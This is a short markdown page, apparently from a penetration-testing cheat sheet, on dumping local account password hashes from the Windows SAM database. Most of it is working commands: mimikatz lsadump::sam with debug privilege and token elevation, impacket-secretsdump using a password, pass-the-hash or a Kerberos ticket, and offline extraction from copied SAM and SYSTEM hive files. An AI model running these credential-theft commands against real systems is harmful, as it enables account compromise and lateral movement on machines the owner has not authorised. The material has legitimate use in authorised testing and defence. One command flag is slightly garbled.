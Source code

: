 ```yaml
---
label: Local SAM
---
```


# Credentials dump from local SAM

> **Requirements:**
>
> - You have to be a local administrator on the machine (or SYSTEM).

SAM dump will return all local users on the system along with their hashed passwords in NT hash form.

Windows:

```powershell
.\mimikatz.exe
> privilege::debug
> token::elevate
> lsadump::sam
```

Linux:

```bash
# Using password
impacket-secretsdump $domain/$user:$password@$host

# Using NT hash
impacket-secretsdump -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-secretsdump $hostname -k -no-pass -dc-ip $dc_ipyar
```

## Offline SAM database dump

You can also steal SAM database file and SYSTEM registry hive and extract credentials offline:

- SAM: `C:\Windows\System32\config\SAM`
- SYSTEM: `C:\Windows\System32\config\SYSTEM`

```bash
# Dump credentials from local SAM and SYSTEM file
impacket-secretsdump -sam $sam_file -system $system_file LOCAL
```
